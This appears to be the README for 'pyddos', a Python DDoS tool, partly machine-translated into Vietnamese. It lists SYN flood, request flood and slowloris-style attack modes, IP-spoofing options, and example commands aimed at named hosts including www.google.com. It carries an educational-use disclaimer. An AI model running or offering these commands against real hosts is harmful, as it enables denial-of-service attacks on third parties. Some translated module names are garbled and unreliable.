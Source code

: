 # pyddos.py

* Đây là bản cập nhật mới của tôi
* Script này có 3 kiểu tấn công ddos: SYNFLOOD | YÊU CẦU | Pyslow
* Script có kiểu tấn công pyslow tương tự như kiểu tấn công slowloris

# Ghi chú
* Tôi viết kịch bản này cho mục đích giáo dục không nhằm mục đích phá hoại và các hành động bất hợp pháp, vì vậy tôi sẽ không chịu trách nhiệm về điều đó

# Yêu cầu mô-đun
* màu sắc
* bức tranh màu

# Cách sử dụng
       
      _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
                                                               
        DDos python script | Script used for testing ddos | Ddos attack     
         Author: ___T7hM1___                                                
         Github: http://github.com/t7hm1/pyddos                             
        Version:2.0 

    usage: ./pyddos -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
         ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
        ./pyddos -d www.domain.com -s 100 -Request
        ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0
